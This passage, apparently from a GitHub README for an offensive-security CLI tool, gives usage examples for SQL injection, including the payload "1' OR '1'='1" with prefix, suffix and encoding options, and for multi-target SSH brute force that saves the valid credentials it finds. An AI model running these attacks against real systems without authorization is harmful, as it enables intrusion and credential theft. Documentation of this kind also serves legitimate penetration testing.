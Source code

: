 ```bash
    --random-header \
    --verify-vuln \
    --log-file /path/to/log.txt
```

### SQL Injection Attack
```bash
# Basic SQL injection
python src/cli.py sql-injection \
    --target http://example.com/page.php \
    --parameter id \
    --payload "1' OR '1'='1"

# Advanced SQL injection
python src/cli.py sql-injection \
    --target http://example.com/page.php \
    --parameter id \
    --parameters-file params.txt \
    --dbms mysql \
    --prefix "'" \
    --suffix "-- -" \
    --encoding base64 \
    --risk 2 \
    --level 3 \
    --test-forms \
    --test-cookies \
    --report-format html \
    --output-dir /path/to/reports
```

### Credential Attack Examples

#### SSH Brute Force Examples
```bash
# Basic SSH brute force
python src/cli.py ssh-brute-force \
    --target 192.168.1.100 \
    --username admin \
    --wordlist passwords.txt

# Advanced SSH brute force with multiple targets
python src/cli.py ssh-brute-force \
    --target 192.168.1.100 \
    --targets-file targets.txt \
    --usernames-file users.txt \
    --passwords-file passwords.txt \
    --threads 4 \
    --delay 1.0 \
    --max-attempts 100 \
    --stop-on-success \
    --verify-access \
    --output-format json \
    --save-valid creds.json
```
